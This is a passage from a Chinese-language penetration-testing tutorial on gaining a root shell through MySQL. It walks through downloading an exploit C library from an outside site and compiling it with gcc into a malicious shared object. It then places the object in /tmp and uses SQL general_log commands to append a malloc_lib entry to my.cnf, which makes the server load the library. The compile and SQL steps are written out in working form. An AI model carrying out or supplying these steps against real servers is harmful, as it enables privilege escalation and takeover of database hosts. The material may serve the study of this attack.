 首先，我们下载一个C脚本，用来编译成我们恶意的扩展库，可获得目标机的shell：

- http://legalhackers.com/exploits/mysql_hookandroot_lib.c

如下修改该攻击脚本：

![image-20210125113658054](assets/1611564730_600e86bacdef1cc4c369a.png!small)

执行如下命令编译生成恶意的扩展库文件mysql_hookandroot_lib.so：

```
gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl
```

![image-20210125113802216](assets/1611564732_600e86bc58db39d66e12a.png!small)

然后通过上文所讲的各种方式将生成的mysql_hookandroot_lib.so上传到目标机的/tmp目录下即可。

接下来，我们要确定要修改的MySQL配置文件为哪个。MySQL的配置文件除了默认的 /etc/my.cnf，还有别的配置文件路径，并且是顺序读取的：

| File Name              | Purpose                                                |
| ---------------------- | ------------------------------------------------------ |
| **/etc/my.cnf**        | **Global options**                                     |
| **/etc/mysql/my.cnf**  | **Global options**                                     |
| SYSCONFDIR/my.cnf      | Global options                                         |
| **$MYSQL_HOME/my.cnf** | **Server-specific options (server only)**              |
| defaults-extra-file    | The file specified with`--defaults-extra-file`, if any |
| ~/.my.cnf              | User-specific options                                  |
| ~/.mylogin.cnf         | User-specific login path options (clients only)        |

可见MySQL不仅会读取/etc/my.cnf，还会读取$MYSQL_HOME/my.cnf即msyql自身目录下的mf.cnf。那我们到底修改哪一个my.cnf呢？答案是都可以，但最好是mysql目录下的，因为msyql目录毕竟是人家mysql自己的目录，以mysql用户运行的mysql当然是有权限写的，而别的文件可就不好说了。但也无法避免管理员的错误配置情况，所以，只要mysql用户有mysql配置文件的所属权限，攻击便可以追加恶意的配置项到该文件。

其次，我们还要确定用什么方法写my.cnf文件。一说到写文件，我们便可以想到into outfile和into  dumpfile。但是在这里，我们不能用这种方式，因为outfile和dumpfile写出来的文件的权限为-rw-rw-rw，而MySQL有一个安全规则，即如果配置文件的权限可被其他用户写，则将会忽略这个配置文件。所以outfile和dumpfile写出来的配置文件不符合该安全规则。

我们可以用上文中讲的log写文件的方法。并且log写文件对于已存在的文件将会自动追加，正好可以避免写入的以下banner内容对MySQL配置文件的影响，也就是说，如果要用log写配置文件的话，该配置文件必须是mysql已经创建好的。

攻击者在目标主机的MySQL里执行以下操作即可写入MySQL配置文件：

```
mysql> set global general_log = on;    # 开启日志功能

mysql> set global general_log_file = '/etc/my.cnf';    # 设置日志存放路径为mf.cnf

mysql> select "    # 执行后，将在日志中(my.cnf)中写入恶意配置
	"> [mysqld]
	"> malloc_lib=/tmp/mysql_hookandroot_lib.so
	">
	"> #";
	
mysql> set global general_log = off;    # 关闭日志功能
```
